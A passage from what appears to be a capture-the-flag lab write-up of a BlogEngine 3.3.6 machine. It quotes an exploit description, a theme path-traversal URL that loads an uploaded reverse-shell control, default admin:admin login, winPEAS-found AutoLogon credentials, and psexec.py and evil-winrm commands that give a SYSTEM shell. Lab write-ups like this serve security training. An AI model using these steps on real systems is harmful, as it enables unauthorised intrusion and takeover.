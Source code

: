 ```
 * Attack:
 *
 * First, we set the TcpClient address and port within the method below to 
 * our attack host, who has a reverse tcp listener waiting for a connection.
 * Next, we upload this file through the file manager.  In the current (3.3.6)
 * version of BlogEngine, this is done by editing a post and clicking on the 
 * icon that looks like an open file in the toolbar.  Note that this file must
 * be uploaded as PostView.ascx. Once uploaded, the file will be in the
 * /App_Data/files directory off of the document root. The admin page that
 * allows upload is:
 *
 * http://10.10.10.10/admin/app/editor/editpost.cshtml
 *
 *
 * Finally, the vulnerability is triggered by accessing the base URL for the 
 * blog with a theme override specified like so:
 *
 * http://10.10.10.10/?theme=../../App_Data/files
 *
 */
```

As the exploit suggests, we need to do the following things:
```
Log in to the admin section.

Upload a reverse shell named PostView.csx

Then use the path traversal on /blog/?theme=../../App_Data/files
```
Using the credentials "admin:admin" we can log in and complete the exploit.

### PRIV ESC
After uploading winpeas.exe and running it, it shows some "AutoLogon" credentials for the user "administrator"
```
[+] Looking for AutoLogon credentials(T1012)
  Some AutoLogon credentials were found!!
  DefaultUserName               :  Administrator
  DefaultPassword               :  PzCEKhvj6gQMk7kA
```
With this we can use psexec.py from impacket to spawn a shell as SYSTEM:
```
psexec.py Engine/Administrator:PzCEKhvj6gQMk7kA@172.31.1.16
```
I did this as I had never used the program before, but obviously we can just login over winrm using evil-winrm aswell:
```
evil-winrm -i 172.31.1.16 -u administrator -p PzCEKhvj6gQMk7kA
```

## ETERNAL
